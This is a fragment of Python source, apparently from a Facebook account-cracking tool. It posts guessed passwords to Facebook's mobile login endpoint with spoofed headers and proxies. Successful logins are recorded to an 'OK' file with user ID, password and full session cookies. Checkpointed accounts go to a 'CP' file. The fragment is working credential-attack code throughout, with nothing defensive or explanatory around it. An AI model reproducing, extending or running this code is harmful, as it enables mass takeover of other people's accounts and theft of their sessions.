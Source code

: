 'had_cp_prefilled': False,
'had_password_prefilled': False,
'is_smart_lock': False,
'bi_xrwh': 0
}
			headers = {'Host': 'm.facebook.com','x-fb-rlafr': '0','access-control-allow-origin': '','strict-transport-security': 'max-age=15552000; preload','pragma': 'no-cache','cache-control': 'private, no-cache, no-store, must-revalidate','x-fb-debug': 'J9sEtS6VttXEZAdcwAFuSgNaCOI+M5AmEWyzsFKgRS5OcUfo5ViX/5Z7oCmzHaEUfZRLKdk3pnc2r3/ttOBDEg==','content-length': '0','cache-control': 'max-age=0','sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','save-data': 'on','upgrade-insecure-requests': '1','origin': 'https://mobile.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-user': '?1','sec-fetch-dest': 'empity','referer': 'https://mobile.facebook.com/login.php?skip_api_login=1&api_key=159693524730858&kid_directed_site=0&app_id=159693524730858&signed_next=1&next=https%3A%2F%2Fmobile.facebook.com%2Fdialog%2Foauth%3Flocale%3Den_US%26client_id%3D159693524730858%26scope%3Demail%26redirect_uri%3Dhttps%253A%252F%252Fwww.ebay.com%252Fsignin%252Ffb%252Fcb%26state%3Ddl4xLjEjaV4xI0leMyNyXjEjZl4wI3BeMSN0XlVsNDFYelE2TURSQlFrRTJSVU16TUVFeVJEbEROemxFUkVZM1JEQkROell4UmpRMU1URmZNbDh4STBWZU1qWXc%253D%257C%257CAQAJAAAAUKXnAXFO_1KI4a1RqK2_eVTLroviDJxDQ8bPtE7iGgKCvy918YtZINd3B0nMih7kF6hc4omax6nzT6C9FAXT0fRNVD8ebVm9EgrCVZriQr9p%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3D0dec02ae-3f47-4ec3-b46b-525c0daca5d7%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.ebay.com%2Fsignin%2Ffb%2Fcb%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3Ddl4xLjEjaV4xI0leMyNyXjEjZl4wI3BeMSN0XlVsNDFYelE2TURSQlFrRTJSVU16TUVFeVJEbEROemxFUkVZM1JEQkROell4UmpRMU1URmZNbDh4STBWZU1qWXc%253D%257C%257CAQAJAAAAUKXnAXFO_1KI4a1RqK2_eVTLroviDJxDQ8bPtE7iGgKCvy918YtZINd3B0nMih7kF6hc4omax6nzT6C9FAXT0fRNVD8ebVm9EgrCVZriQr9p%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate','accept-language': 'id-ID,id;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6'}
			po = ses.post('https://mobile.facebook.com/login/device-based/login/async/?api_key=1489897304628200&auth_token=a9f026064544c7803c565702baa60d93&skip_api_login=1&signed_next=1&next=https://mobile.facebook.com/v15.0/dialog/oauth?app_id=1489897304628200&cbt=1703092369013&channel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df3f75e69c2181c8%26domain%3Dwww.blibli.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.blibli.com%252Ff1c7ad6e5893b54%26relation%3Dopener&client_id=1489897304628200&display=touch&domain=www.blibli.com&e2e=%7B%7D&fallback_redirect_uri=https%3A%2F%2Fwww.blibli.com%2Flogin&locale=en_US&logger_id=f24ed4fc5de6218&origin=2&redirect_uri=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df1a7cd8ead0781c%26domain%3Dwww.blibli.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.blibli.com%252Ff1c7ad6e5893b54%26relation%3Dopener%26frame%3Dfdfbc16800b26c&response_type=token%2Csigned_request%2Cgraph_domain&scope=public_profile%2Cemail&sdk=joey&version=v15.0&refsrc=deprecated&ret=login&fbapp_pres=0&tp=unspecified&refsrc=deprecated&app_id=1489897304628200&cancel=https://staticxx.facebook.com/x/connect/xd_arbiter/?version=46#cb=f1a7cd8ead0781c&domain=www.blibli.com&is_canvas=false&origin=https%3A%2F%2Fwww.blibli.com%2Ff1c7ad6e5893b54&relation=opener&frame=fdfbc16800b26c&error=access_denied&error_code=200&error_description=Permissions+error&error_reason=user_denied&lwv=100',data=data,headers=headers,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				idf = ses.cookies.get_dict()["checkpoint"].split("%")[4].replace("3A", "")
				cp+=1
				print(f'\r{P}[{K}SLLOWLY-CP{P}] : {K}{idf}|{pw}|{ua}')
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				idf = re.findall('c_user=(.*);xs', kuki)[0]
				print(f'\r{P}{H}SLLOWLY-OK ⌲{P} = {H}{idf}|{pw}')
				print(f'\r{P}{M2}SLLOWLY-OK ⌲{P} = {H}{kuki}')		
				print(f'{hijo}{ua}')				
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
